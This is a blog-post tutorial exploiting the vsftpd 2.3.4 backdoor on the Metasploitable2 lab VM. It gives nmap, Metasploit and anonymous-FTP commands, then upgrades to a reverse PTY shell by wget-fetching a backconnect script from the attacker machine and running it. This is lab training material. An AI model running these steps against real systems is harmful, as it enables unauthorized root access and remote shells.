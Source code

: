 ```yaml
---
layout: post
title: "Metasploitable2 - vsftpd 2.3.4"
categories: metasploitable
---
```

<hr>
Metasploitable2 is a virtual machine that is an intentionally vulnerable operating system based on Ubuntu. Designed for testing security tools, and common vulnerabilities.<br>
Download link here: <https://metasploit.help.rapid7.com/docs/metasploitable-2><br>
<br>
Metasploitable2 has a large attack surface, but we will be focusing on FTP in this post which looks at the vulnerable version of vsftpd 2.3.4
<hr>
#### Nmap scan
My Metasploitable2 IP is 192.168.1.78<br>
`nmap -sC -sV -oA initial-scan 192.168.1.78`
![](\images\metasploitable\vsftpd234\1.png)
<hr>
#### Anonymous Login
From the scan we can see the version of FTP which is vsftpd 2.3.4, but we can also see that anonymous logins are allowed.
As a starting point lets see if there's any loot.<br>
`ftp 192.168.1.78`<br>
<br>
Because its anonymous login, we can use either ftp or anonymous for the username and any password we want. For example use<br>
`ftp:ftp`<br>
![](\images\metasploitable\vsftpd234\2.png)<br><br>
List the files within FTP<br>
`ls`<br>
![](\images\metasploitable\vsftpd234\3.png)<br><br>
There is 1 file in ftp called "nothing_here". We can download the file to our local machine with<br> `get nothing_here`<br><br>
There is nothing there, This was just an example of anonymous logins
<hr>
#### vsftpd 2.3.4
Back to the version of FTP which is vsftp 2.3.4<br>
using searchsploit for vsftpd returns these results<br>
`searchsploit vsftpd`<br>
![](\images\metasploitable\vsftpd234\4.png)<br><br>
There is a backdoor Metasploit module for our vsftpd (2.3.4) version.
<hr>
#### Metasploit
Start Metasploit<br>
`msfconsole`<br><br>
Search for where the exploit lives in metasploit<br>
`search vsftpd 2.3.4`<br>
![](\images\metasploitable\vsftpd234\5.png)<br><br>
We are going to use the backdoor which is #3<br>
`use exploit/unix/ftp/vsftpd_234_backdoor`<br><br>
Lets look at the options we need to set.<br>
`options`<br>
![](\images\metasploitable\vsftpd234\6.png)<br><br>
RHOSTS setting is currently empty, and RHOSTS is required for this exploit to work. Set it to your Metasploitable2 IP<br>
(RHOSTS - Remote Host)<br>
`set rhost 192.168.1.78`<br><br>
Show options again, the remote host has been set<br>
`options`
![](\images\metasploitable\vsftpd234\7.png)<br><br>
At this point we are good to exploit<br>
`exploit`<br>
![](\images\metasploitable\vsftpd234\8.png)<br><br>
Congratulations, We are in!<br><br>
If we type id, it tells us that we are root.<br>
`id`<br>
![](\images\metasploitable\vsftpd234\9.png)<br><br>
This isn't much of a shell, Lets upgrade it!<br>
Leave this metasploit terminal running we'll need it later<br>
<hr>
#### Upgrading the shell to a fully interactive PTY
We could of placed a meterpreter payload in our exploit, but we are going to get a python PTY shell, that lets you use nano/vi to write files, shows where you are in the file structure, and lets you auto complete with TAB.<br>
This has a bit more of a setup, but it's good practice as we wont always be able to use Metasploit to open meterpreter shells.<br><br>
Lets begin<br>

Open a new terminal<br>
Download python pty shells from github - <https://github.com/infodox/python-pty-shells><br>
`git clone https://github.com/infodox/python-pty-shells.git`<br><br>
cd into python-pty-shells folder<br>
`cd python-pty-shells`<br>

We will be using 2 scripts
* tcp_pty_backconnect.py
* tcp_pty_shell_handler.py

Edit  tcp_pty_backconnect.py script with your favorite text editor (I use VIM) and change the "lhost" to your Kali machines IP, and save it.<br><br>
Make note of "lhost" and "lport" we will need them<br>
My Kali machines IP is 192.168.1.240<br>
![](\images\metasploitable\vsftpd234\10.png)<br><br>

Set up a listener to catch the shell, Remember the "lhosts" and "lport" from tcp_pty_backconnect.py they're used in this command<br>
`python tcp_pty_shell_handler.py -b 192.168.1.240:31337`<br>
![](\images\metasploitable\vsftpd234\11.png)<br><br>

Open a new terminal in python-pty-shells folder and setup a basic http server with python (default port is 8000)<br>
The reason we setup a http server is so we can download tcp_pty_backconnect.py from our Kali machine to the metasploitable machine<br>
`python -m SimpleHTTPServer`<br>
![](\images\metasploitable\vsftpd234\12.png)<br><br>

Go back to the metasploit shell<br>
We will download the script in /root with the name of pty_shell<br>
`wget 192.168.1.240:8000/tcp_pty_backconnect.py -O /root/pty_shell`<br>
![](\images\metasploitable\vsftpd234\13.png)<br><br>

Still in the metasploit shell, cd into root directory and list the files, you should see pyt_shell in the output<br>
`cd /root`<br>
`ls`<br>
![](\images\metasploitable\vsftpd234\14.png)<br><br>

Run the pty_shell script<br>
`python pty_shell`<br>
![](\images\metasploitable\vsftpd234\15.png)<br><br>
Have a look at the listener that we set up earlier to see if you caught the shell<br>
![](\images\metasploitable\vsftpd234\16.png)<br><br>

Congrats, you just upgraded to a fully interactive PTY shell.<br><br>
There are multiple ways of achieving this, for example we could of uploaded the backconnect script straight into the ftp server. This is just the way I did it.<br>
Thanks for reading<br>
Happy Hacking!
